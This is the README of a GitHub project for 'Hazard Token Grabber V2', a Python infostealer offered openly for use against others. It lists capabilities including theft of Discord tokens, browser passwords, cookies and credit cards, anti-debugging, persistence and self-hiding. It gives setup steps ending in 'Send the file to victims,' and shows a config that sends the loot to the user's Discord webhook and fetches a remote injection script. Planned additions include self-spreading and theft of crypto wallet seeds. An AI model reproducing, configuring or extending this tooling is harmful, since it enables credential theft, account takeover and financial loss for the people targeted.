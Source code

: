 <h1 align="center">
  Hazard Token Grabber V2 🔰
</h1>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/ef843c19b7dc2f65c6ace3d763c521d6218d7269/Hazard-Token-Grabber-V2/Hazardv2.jpg"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Hazard-Token-Grabber-V2?style=flat-square">
  <img src="https://img.shields.io/github/last-commit/Rdimo/Hazard-Token-Grabber-V2?style=flat-square">
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Hazard-Token-Grabber-V2&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Hazard-Token-Grabber-V2?color=%02B039&label=Stars&style=flat-square">
  <img src="https://img.shields.io/github/forks/Rdimo/Hazard-Token-Grabber-V2?color=%02B039&label=Forks&style=flat-square">
</p>

<h2 align="center">
  Hazard-Token-Grabber-V2 was made by

Love ❌ code ✅

</h2>

**NOTE:** This is a free software. It will **NOT** be undetected from antiviruses, or have custom features. If you want a better one, join [CheatAway](https://cheataway.com/invite) and purchase one. 
> [Why Hazardv2 won't be more OP](https://github.com/Rdimo/Hazard-Token-Grabber-V2/issues/314#issuecomment-1133918906)

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://cheataway.com/invite)
- [🎉・Setting up Hazard Token Grabber.V2](#setup)
- [⚙・Config](#config)
- [🌟・Todo/Enhancements](#enhancements)
- [📝・Changelog](#changelog)
- [🤓・Dear skids](#skids)

## <a id="features"></a>🔰 〢 Features

```
> Anti-vm/Anti-debug
> Add to startup
> Hides itself
> Supports github.com/Rdimo/Discord-Webhook-Protector so webhook can't be deleted or spammed
> Options are configurable
> Pretty Fast Even if it Was Made With Python
> Windows Product Key & Build Info
> IP & Geolocation. (Country, City, Google Maps Location)
> A screenshot of all their monitors
> All valid/working discord tokens. (Bypasses BetterDiscord, Token Protector and Discord's new encryption)
> Their Passwords & Credit Cards for Discord (updates when they change it)
> All Passwords and Cookies from the Chrome Browser
> + More!
```

## <p align="left"><img src="https://raw.githubusercontent.com/Rdimo/images/master/Hazard-Token-Grabber-V2/info.png">

---

## <a id="setup"></a> 📁 〢 Setting up Hazard Token Grabber.V2

1. Install [python](https://www.python.org/) and add it to [path](https://datatofish.com/add-python-to-windows-path/).
2. Open up [main.py](https://github.com/Rdimo/Hazard-Token-Grabber-V2/blob/master/main.py) with notepad or some other editor
3. Locate the config at the top of the file and Replace "WEBHOOK_HERE" with your [discord webhook](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
4. Double Click `setup.bat` and allow it to finish.
5. A Window will open prompting for a name. Put something in such as "Token_Logger" (You can always rename the file later)
6. Send the file to victims. 😈

## <a id="config"></a>⚙ 〢 Config

If you Want to change the config, open up [main.py](https://github.com/Rdimo/Hazard-Token-Grabber-V2/blob/master/main.py) and locate it at the top. There you can configure the following:

```py
config = {
    # replace WEBHOOK_HERE with your webhook ↓↓ or use the api from https://github.com/Rdimo/Discord-Webhook-Protector
    # Recommend using https://github.com/Rdimo/Discord-Webhook-Protector so your webhook can't be spammed or deleted
    'webhook': "WEBHOOK_HERE",
    # ONLY HAVE THE BASE32 ENCODED KEY HERE IF YOU'RE USING https://github.com/Rdimo/Discord-Webhook-Protector
    'webhook_protector_key': "KEY_HERE",
    # keep it as it is unless you want to have a custom one
    'injection_url': "https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js",
    # set to False if you don't want it to kill programs such as discord upon running the exe
    'kill_processes': True,
    # if you want the file to run at startup
    'startup': True,
    # if you want the file to hide itself after run
    'hide_self': True,
    # does it's best to prevent the program from being debugged and drastically reduces the changes of your webhook being found
    'anti_debug': True,
    # this list of programs will be killed if hazard detects that any of these are running, you can add more if you want
    'blackListedPrograms':
    [
      ...
    ]

}
```

## <a id="enhancements"></a>🌟 〢 todo/enhancements

- Self spread | Suggestion from [FuckingToasters](https://github.com/Rdimo/Hazard-Token-Grabber-V2/issues/31)
- Grab Chrome history | Suggestion from [TeteuXD2](https://github.com/Rdimo/Hazard-Token-Grabber-V2/issues/300)
- Grab Wifi passwords | Suggestion from [msr8](https://github.com/Rdimo/Hazard-Token-Grabber-V2/issues/35)
- Metamask Priv Key and seed | Suggestion from [Snipeeeey](https://github.com/Rdimo/Hazard-Token-Grabber-V2/issues/281)
- Grab Minecraft accessToken | Suggestion from [p3tt3](https://github.com/Rdimo/Hazard-Token-Grabber-V2/issues/248)
- Grab hwid (for manual blacklisting) | Suggestion from [p3tt3](https://github.com/Rdimo/Hazard-Token-Grabber-V2/issues/247)
- Better Anti-vm/Anti-debug (check screen size?, more registery checks?, make the lists outbound?)
- Exe builder (clean gui, toggable options, compress exe (file size <= 8mb), etc...)
- Grab more network info (ip, geolocation, etc...) and put in seperate txt file
- General info (OS, CPU, GPU, RAM, etc...) and put in seperate txt file

---

## <a id="changelog"></a>💭 〢 ChangeLog

```diff
v1.7.5 ⋮ 2022-06-02
+ added another endpoint for network info grabbing since ipinfo.io had a ratelimit (ty https://github.com/mte0 for the new endpoint)
+ added back ram check

v1.7.4 ⋮ 2022-05-31
+ exits if no internet connection was established.
+ made functions match the default regular expression ^[_a-z][a-z0-9_]*$
+ made classes match the default regular expression ^_?([A-Z_][a-zA-Z0-9]*|[a-z_][a-z0-9_]*)$

v1.7.2 ⋮ 2022-05-23
+ fixed bug were discord would still restart even if kill_processes was off

v1.7.1 ⋮ 2022-05-22
+ https://github.com/Rdimo/Discord-Webhook-Protector now works with the injection

v1.7.0 ⋮ 2022-05-22
+ Added support for https://github.com/Rdimo/Discord-Webhook-Protector

v1.6.9 ⋮ 2022-05-16
- Removed my accidently added webhook and enabled the defaults again,

v1.6.8 ⋮ 2022-05-16
+ fixed unpack valueError bug (https://github.com/Rdimo/Hazard-Token-Grabber-V2/issues/297)

v1.6.7 ⋮ 2022-05-15
+ fixed TypeError bug were loc could be a NoneType

v1.6.6 ⋮ 2022-05-11
+ updated token regex since discord update the auth token

v1.6.5 ⋮ 2022-05-7
+ bug fixes
+ cleaner code

v1.6.4 ⋮ 2022-05-01
+ anti-vm/debug
+ better encrypted token regex
+ bug fixes

v1.6.3 ⋮ 2022-04-24
+ fixed grab encrypted tokens from other discord versions
+ optimization
+ better handler
+ bug fixes

v1.6.2 ⋮ 2022-04-19
+ fixed decoding
+ better err handling

v1.6.1 ⋮ 2022-04-17
+ updated to discord_desktop_core-3

v1.6.0 ⋮ 2022-04-08
+ config to customize options
+ class object for general functions
+ threads and async functions making it 10x faster
+ decorator for the chrome grabbing functions
+ changed from requests to httpx for async lib
+ grabs disk and ram size
+ better builder
+ cleaner embed
+ formatted code
```

## <a id="skids"></a>🤓 〢 Dear Skids

We all know you cant code for shit but skidding peoples hard work, is just not it \
Profiting from it is just even more f*cked up \
I hope you end up on the streets begging for spare change


<br>

<p align="center">
🌟 <b>Enjoyed Hazard Nuker?</b> Consider dropping a star :)
  <br>
Made alone by Rdimo
</p>
<p align="center"><a href=#top>Back to Top</a></p>
